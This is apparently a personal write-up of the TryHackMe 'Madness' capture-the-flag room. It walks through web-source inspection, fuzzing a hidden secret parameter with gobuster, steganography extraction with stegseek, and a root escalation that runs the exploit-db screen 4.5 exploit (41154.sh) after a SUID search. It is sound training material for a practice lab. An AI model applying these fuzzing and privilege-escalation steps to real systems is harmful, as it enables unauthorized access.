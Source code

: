 ```yaml
---
layout: post
title: Walkthrough - Madness
published: true
---
```


Security, Steganography, Web, Challenge. Will you be consumed by madness?

![](/assets/madness01.png)

[https://tryhackme.com/room/madness](https://tryhackme.com/room/madness)

* * *

## Notes

2 ports, 22 ssh and 80 http server.

Inspect source and find comment

```
<img src="thm.jpg" class="floating_element"/>
<!-- They will never find me-->
        <span class="floating_element">
```

- ``wget http://10.10.205.63/thm.jpg``
- ``hexeditor`` shows this jpg is set as a png. lets try to edit the file signature to be able to read it.
- using JFIF file signature header (``FF D8 FF E0 00 10 4A 46 49 46 00 01``) with ``hexeditor`` we can now read the file in ``ristretto``

![](/assets/madness02.png)

- found hidden directory ``/th1s_1s_h1dd3n``
- inspecting the source

```
<div class="main">
<h2>Welcome! I have been expecting you!</h2>
<p>To obtain my identity you need to guess my secret! </p>
<!-- It's between 0-99 but I don't think anyone will look here-->

<p>Secret Entered: </p>

<p>That is wrong! Get outta here!</p>
</div>
```

We need a secret to get access, so lets create a simple python script to make a list of 0-99. 

- ``numbers.py``

```python
for number in range(-1, 100):
	print(number)
```

- ``python3 numbers.py > numbers.txt``
- then fuzz ``gobuster fuzz -u http://10.10.205.63/th1s_1s_h1dd3n/?secret=FUZZ -w numbers.txt --no-error``
- one has a longer length ``http://10.10.205.63/th1s_1s_h1dd3n/?secret=73``
- where we get a new clue

```
<p>Secret Entered: 73</p>

<p>Urgh, you got it right! But I won't tell you who I am! y2RPJ4QaPF!B</p>
```

``hint - There's something ROTten about this guys name!``

Finally after hours of trying to decipher the above code, it turded out to be a password for the file hidden in the origional JPG that we found.

```
┌──(0xskar㉿cocokali)-[~/Documents/TryHackMe/Madness]
└─$ stegseek -sf thm-edited.jpg -wl secret.txt                               
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: "y2RPJ4QaPF!B"
[i] Original filename: "hidden.txt".
[i] Extracting to "thm-edited.jpg.out".
```

- ``cat thm-edited.jpg.out``

```
Fine you found the password! 

Here's a username 

wbxre

I didn't say I would make it easy for you!
```

- and decrupting rot-10 we get the username ``joker``

- the header pic of the cheshire car smile contains another hidden text file..cheaters.

```
┌──(0xskar㉿cocokali)-[~/Documents/TryHackMe/Madness]
└─$ cat 5iW7kC8.jpg.out 
I didn't think you'd find me! Congratulations!

Here take my password

*axA&GF8dP
```

* * * 

## What is the user flag?

![](/assets/madness03.png)

* * * 

## What is the root flag?

Potential Escalation Vectors

- ``find / -perm -u=s -type f 2>/dev/null``
- ``searchsploit screen 4.5``
- ``cp /usr/share/exploitdb/exploits/linux/local/41154.sh .``
- wget it over and ``./41154.sh`` to get root

![](/assets/madness04.png)

* * * 

